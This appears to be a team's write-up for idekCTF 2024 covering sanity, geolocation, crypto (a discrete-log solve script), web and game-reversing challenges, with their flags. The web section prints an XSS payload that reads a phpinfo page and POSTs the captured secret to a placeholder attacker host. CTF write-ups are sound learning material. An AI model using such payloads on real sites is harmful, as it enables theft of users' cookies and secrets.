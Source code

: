 # idekCTF 2024
###### tags: `CTF`

Player: 
- ywc
- Pierre
- Amias
- MuMu

## sanity
### Welcome to idekCTF 2024!

```
Welcome to idekCTF 2024! Please join our discord for any announcements and updates on challenges.
```

![image](https://i.imgur.com/iZDy4E7.png)

`idek{our_hack_fortress_team_is_looking_for_mvm_players}`

### Feedback survey

```
Thank you for participating in idekCTF, please let us know how we did!

Survey
```

![image](https://i.imgur.com/m5WHwnS.png)

`idek{next_year_will_be_idek_2025...We_promise!}`

## misc
### NM~~PZ~~ - easy
```
Just a few completely random locations.

http://nmpz.chal.idek.team:1337

Downloads

nmpz1.tar.gz
```

- [bonaparte_1784](https://maps.app.goo.gl/9HTb3ouVMgvNqgQo9)
    - 1,1e3f2a0309b777b37b1bc12d01203339
- [beer_park](https://maps.app.goo.gl/nkLdGRRLeFLneCzs9)
    - 2,ec72b5bdb83f858308142a0d3dde5714
- [mr_drains](https://maps.app.goo.gl/1jDJoLCCKZhKeyzw5)
    - 3,c82846bd8de1579487c290fe0ef30700
- [green_car](https://maps.app.goo.gl/GEGjaKAqruoQv3iE9)
    - 4,399a088ff464a1a43ed3d6864c7f50b5
- [posuto_py](https://maps.app.goo.gl/v1NatG3u6Qawq8tw5)
    - 5,fc26a083d35cb9d6b474580017f8bdfa
- [icc](https://maps.app.goo.gl/R1xvFKtXQbgooif2A)
    - 6,836c35892e7643f71668376d1716e44e
- [imax](https://maps.app.goo.gl/qjb1tgDidEXP9Sad7)
    - 7,aef9cc02ac17e0a806c2204fceea74f1
- [panasonic](https://maps.app.goo.gl/qxJx7SRANfkYDJTV8)
    - 9,a1e3b275a3e73cd964ffd840063204be
- [deja_vu](https://maps.app.goo.gl/A2e5KGU2s1RyUXV3A)
    - 10,201189c04aae837ab90f86c9d5747beb

![image](https://i.imgur.com/ImHycCW.png)

```
idek{very_iconic_tower_75029e39}
```

### NM~~PZ~~ - medium

- [soylent_green](https://maps.app.goo.gl/kPxN7zeV7pmA6R2Q6)
    - 1,1755e5bcb85dc2786de932d826419f56
- [and_my_compass](https://maps.app.goo.gl/MNNgeL2k8PfaJjJB9)
    - 2,0e8368ee81b0cadffa2d0199b17be81f
- [sea_adventure](https://maps.app.goo.gl/pg7K5tuVdpQKoS4z5)
    - 3,5dd302f03e495b7a888a4b66686ccec0
- [beach_property](https://maps.app.goo.gl/N9fF8G22nYj9Yprr7)
    - 4,227b1b59720a42a04f2cff396f5a41a6
- [stair_way_to_heaven](https://maps.app.goo.gl/oWhJpYk9w33Dm4786)
    - 5,bcc9a94dd9b9026121dd4a7b5d106a87
- [a_circle](https://maps.app.goo.gl/TpdMZ22KPzdnBBwG6)
    - 6,b047238f02c1753e02473be44696319b- 

## crypto
### Golden Ticket
```
Can you help Charles - who doesn't have any knowledge about cryptography, get the golden ticket and have a trip to Willy Wonka's factory ?

Downloads

goldenticket.tar.gz
```

題目給了我們 $p$, $13^x+37^x \mod p$, $13^{x-1}+37^{x-1} \mod p$ 要求 $x$

$a = 13$

$b = 37$

$A = a^x + b^x$

$a^x = A - b^x$

$B = a^{x-1} + b^{x-1} = \frac{a^x}{a}+\frac{b^x}{b}$

$a*b*B = b*a^x + a*b^x = b*(A - b^x) + a*b^x = b*A + (a-b)*b^x$

$b^x = \frac{a*b*B - b*A}{a-b}$

而 p-1 平滑，因此可以用 Pohlig–Hellman 來解 (i.e. sagemath discrete_log)

```python
# solve.py
p = xxx
A = xxx
B = xxx
a = 13
b = 37

from sage.all import *

R = Zmod(p)
a = R(a)
b = R(b)
A = R(A)
B = R(B)

f = (a*b*B - b*A) / (a - b)
x = discrete_log(f, b)
print(x)

from Crypto.Util.number import long_to_bytes
print(long_to_bytes(x))
```

![image](https://i.imgur.com/F2ujmXK.png)

`idek{charles_and_the_chocolate_factory!!!}`

## Web
### Hello

```
Just to warm you up for the next Fight :"D

http://idek-hello.chal.idek.team:1337

Admin Bot Note: the admin bot is not on the same machine as the challenge itself and the .chal.idek.team:1337 URL should be used for the admin bot URL
```

bot有設 `httpOnly: true`
可以直接訪問 http://idek-hello.chal.idek.team:1337/info.php/index.php
[Ref1](https://aleksikistauri.medium.com/bypassing-httponly-with-phpinfo-file-4e5a8b17129b)

不能使用空白比較麻煩可以替換成`•`
Payload: `http://idek-hello.chal.idek.team:1337/?name=%3CBODY%0cONLOAD=%22fetch(%27info.php\\index.php%27).then(r=%3Er.text()).then(t=%3Efetch(%27https://yoursite%27,{method:%27POST%27,body:t.match(RegExp(%27FLAG=([^%3C]*)%27))[1]}))%22%3E`
[Ref2](https://security.stackexchange.com/questions/47684/what-is-a-good-xss-vector-without-forward-slashes-and-spaces)

`idek{Ghazy_N3gm_Elbalad}`

## Reverse
### Game

There is a json file named spritesheet, that defined the collision or icon position. 
So we just need to modify collsion to all zero and use CheatEngine speedhack to speed up.

```json
},
    "obstacle_small_0": {
        "x": 228,
        "y": 2,
        "width": 17,
        "height": 35,
        "collision": [
            {"x": 0, "y": 0, "width": 0, "height": 0}
        ]
    },
    "obstacle_small_1": {
        "x": 245,
        "y": 2,
        "width": 34,
        "height": 35,
        "collision": [
            {"x": 0, "y": 0, "width": 0, "height": 0},
            {"x": 0, "y": 0, "width": 0, "height": 0},
            {"x": 0, "y": 0, "width": 0, "height": 0}
        ]
    }
```

Note: Do not use too fast speedhack or it could lead to overgo flag checkpoint.

![image](https://i.imgur.com/AR4VMCh.png)